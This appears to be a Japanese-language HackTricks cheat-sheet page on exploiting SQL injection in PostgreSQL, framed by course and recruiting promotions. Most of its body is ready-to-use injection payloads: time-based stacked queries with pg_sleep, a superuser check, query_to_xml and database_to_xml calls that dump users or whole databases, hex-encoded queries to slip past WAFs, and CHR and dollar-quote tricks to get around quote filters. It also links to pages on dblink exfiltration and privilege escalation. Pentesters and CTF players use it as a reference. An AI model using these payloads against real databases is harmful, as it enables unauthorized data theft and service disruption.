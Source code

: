 # PostgreSQLインジェクション

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用しています！** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

***

**このページは、PostgreSQLデータベースで見つかったSQLインジェクションを悪用するのに役立つさまざまなトリックを説明し、** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) **で見つけられるトリックを補完することを目的としています。**

## ネットワークインタラクション - 権限昇格、ポートスキャナー、NTLMチャレンジレスポンスの開示とエクスフィルトレーション

**PostgreSQLモジュール`dblink`**は、他のPostgreSQLインスタンスに接続し、TCP接続を実行する機能を提供します。これらの機能は、`COPY FROM`機能と組み合わせることで、権限昇格、ポートスキャン、NTLMチャレンジレスポンスのキャプチャなどのアクションを可能にします。これらの攻撃を実行する詳細な方法については、[これらの攻撃を実行する方法](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md)を確認してください。

### **dblinkと大きなオブジェクトを使用したエクスフィルトレーションの例**

[**この例を読む**](dblink-lo_import-data-exfiltration.md)と、**大きなオブジェクト内にデータをロードし、その後、`dblink_connect`関数のユーザー名内の大きなオブジェクトの内容をエクスフィルトレーションする方法**のCTF例を確認できます。

## PostgreSQL攻撃：読み取り/書き込み、RCE、権限昇格

PostgreSQLからホストを侵害し、権限を昇格させる方法を確認してください：

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAFバイパス

### PostgreSQL文字列関数

文字列を操作することで、**WAFやその他の制限をバイパスする**のに役立ちます。\
[**このページ**](https://www.postgresqltutorial.com/postgresql-string-functions/)**では、いくつかの便利な文字列関数を見つけることができます。**

### スタッククエリ

PostgreSQLはスタッククエリをサポートしていますが、2つのレスポンスが返されるとエラーをスローするアプリケーションがいくつかあります。ただし、時間インジェクションを介してスタッククエリを悪用することは可能です：
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XMLトリック

**query\_to\_xml**

この関数は、すべてのデータをXML形式で1つのファイルに返します。1行で大量のデータをダンプしたい場合に最適です：
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

この関数は、データベース全体をXML形式で1行にダンプします（データベースが非常に大きい場合は注意してください。DoS攻撃を引き起こす可能性がありますし、クライアントにも影響を与えるかもしれません）：
```sql
SELECT database_to_xml(true,true,'');
```
### Hexでの文字列

**文字列の中に**（例えば、**`query_to_xml`**関数を使用して）**クエリを渡すことができる場合**、**convert\_fromを使用して文字列を16進数として渡し、この方法でフィルターをバイパスできます：** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### 禁止された引用符

ペイロードに引用符を使用できない場合、基本的な句のために `CHR` を使用してこれを回避できます（_文字の連結は、SELECT、INSERT、DELETEなどの基本的なクエリにのみ機能します。すべてのSQLステートメントには機能しません_）：
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
または `$` を使用します。このクエリは同じ結果を返します:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用しています！** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
